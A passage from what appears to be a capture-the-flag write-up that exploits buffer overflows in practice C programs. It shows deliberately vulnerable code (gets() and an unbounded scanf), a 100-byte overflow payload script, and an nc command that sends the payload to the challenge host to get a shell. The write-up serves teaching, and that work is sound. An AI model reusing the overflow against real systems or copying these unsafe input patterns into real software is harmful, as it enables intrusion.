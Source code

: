 ```C
    gets(inp);

    if (is1337 == 1337){
        puts("Nah bruh, you lied me :(\nShe did Tomato rice instead of briyani :/");
        exit(1337);
    }
    else{
        puts("Thanks, Here's a small gift for you <3");
        system("/bin/sh");
    }
}
```

As you can see, `inp[50]`(the buffer) is passed to `gets()`. This is a dangerous function in C. We can clearly see the code is checking if preset_value is 1337 if it not, we get a shell.

The objective is to rewrite preset_value to something other than 1337.

Since we are taking input from `gets`, which is a dangerous function as it doesn't limit user input. Entering more charactrers than the `inp` (input buffer) accepts will overwrite the preset_value, thus giving us a shell.
```python
# simple pwntools script
from pwn import *

payload = b'A'*100

write("payload.txt",payload)

```
Running the exploit
```bash
(cat payload.txt;cat) | nc MACHINE_IP 9001
```

## PWN 102 - Modify Variable's value
```C
#include <stdio.h>
#include <stdlib.h>

void setup(){
    setvbuf(stdout,(char *)0x0,2,0);
    setvbuf(stderr,(char *)0x0,2,0);
    setvbuf(stdin,(char *)0x0,2,0);
}

void banner(){
    puts(
"       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐\n"
"        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ \n"
"        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘\n"
"                 pwn 102          \n"
    );
}

void main(){
    setup();
    banner();
    char is_this_right[100];
    int need_what = 0xBADF00D;
    int to_do = 0xFEE1DEAD;

    printf("I need %x to %x\nAm I right? ",need_what,to_do);
    scanf("%s",&is_this_right);

```